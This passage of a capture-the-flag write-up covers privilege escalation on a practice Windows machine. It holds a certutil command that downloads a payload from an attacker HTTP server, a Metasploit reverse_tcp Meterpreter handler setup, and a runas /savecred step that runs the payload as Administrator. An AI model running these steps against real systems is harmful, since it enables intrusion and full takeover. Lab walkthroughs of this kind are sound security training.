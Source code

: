 ```
Second, I have to get the ```shell.exe``` file on the victim machine. I realize that I'm on a directory that I do not own (since we are user Security, this can be confirmed by doing ```powershell Dir | Get-Acl``` and it shows that it is owned by ```BUILTIN\Administrators ```.). So I switch to ```C:\Users\security\Desktop```. Then, doing ```powershell Get-Host``` shows that we're on powershell 2.0. Meaning Invoke-Webrequest isn't a thing (it's only in versions >= 3). Doing some research and attempting a powershell 2 workaround [found here](https://codehollow.com/2016/02/invoke-webrequests-via-powershell/) ended up not working for me. I eventually land on [this webpage](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl) and I discover that ```certutil``` can be used to download the file. So with the HTTP server running on my host machine I do:

```
certutil.exe -urlcache -split -f "http://10.10.14.27:8000/shell.exe" shell.exe
```

This will output the downloaded file as ```shell.exe```.

Third, I need to get the metasploit ready:

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST <local IP address>
LHOST => <local IP address>
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <local IP address>:4444 
msf5 exploit(multi/handler) > 
```
*NOTE: It's important the payload you set is the same used in msfvenom

Fourth, now that metasploit is ready, all we have to do is execute the ```shell.exe``` as administrator. Doing a little research on runas with savecred available. I come across [this website](https://www.dummies.com/programming/networking/network-administration-runas-command/) detailing on how to use the runas command. In short, I do this command to execute the program:

```
C:\Users\security\Desktop>runas /savecred /user:Administrator "C:\Users\security\desktop\shell.exe"
```

Checking back to my other terminal which has metasploit open, there's a reverse TCP handler!

```
[*] Meterpreter session 1 opened
```

Now on metasploit, we can do ```sessions -i 1``` to go into interactive mode with session 1.

Doing a ```sysinfo``` check confirms that I'm on ACCESS with the correct OS and version. Last, doing ```shell``` to spawn a windows shell and then doing ```whoami``` on that shell reveals that we are ```Administrator```!

![image](https://user-images.githubusercontent.com/41026969/71541103-af4dea00-2921-11ea-9a02-0207cc721325.png)

Tracing back earlier to the ```C:\Users\``` directory, we see there's an ```Administrator``` directory that, this time, I can get into. Going in the ```Administrator\Desktop``` directory and doing a ```dir /A``` check, we find the root flag!

```